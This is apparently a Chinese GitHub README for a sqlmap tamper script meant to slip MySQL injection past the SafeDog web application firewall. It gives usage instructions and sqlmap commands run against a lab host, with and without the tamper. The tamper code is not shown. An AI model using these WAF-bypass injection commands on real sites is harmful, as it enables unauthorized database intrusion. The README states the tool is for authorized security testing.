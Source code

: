 # MySQLByPassForSafeDog / MySQL注入绕安全狗Tamper

## Code By:Tas9er @A.E.0.S Security Team

######################################################################## 

##### :x:风险概述:

本工具仅限授权安全测试使用,禁止非法攻击未授权站点



##### :ballot_box_with_check:使用教程

此Tamper仅仅适用于MySQL数据库

在SQLMap使用过程中添加参数--tamper=MySQLByPassForSafeDog



##### :trident:绕过测试

(安全狗公司真的业内良心，免费产品都保持渐进式更新，我都看哭了)

安装网站安全狗Apache最新版

![01](/image/01.jpg)



启用安全狗，不加MySQLByPassForSafeDog绕狗Tamper:

python sqlmap.py -u "http://192.168.2.3:60001/sqli.php?id=1" --random-agent --dbms=mysql

![2](/image/2.jpg)



启用安全狗，添加MySQLByPassForSafeDog绕狗Tamper:

python sqlmap.py -u "http://192.168.2.3:60001/sqli.php?id=1" --random-agent --dbms=mysql --tamper=MySQLByPassForSafeDog

![3](/image/3.jpg)



##### :100:绕过POC

可以添加参数-v 3进行学习查看

python sqlmap.py -u "http://192.168.2.3:60001/sqli.php?id=1" --random-agent --dbms=mysql --tamper=MySQLByPassForSafeDog -v 3

![4](/image/4.jpg)



##### 问题反馈

别你🐴天天问东问西，有bug有想法自己想办法。

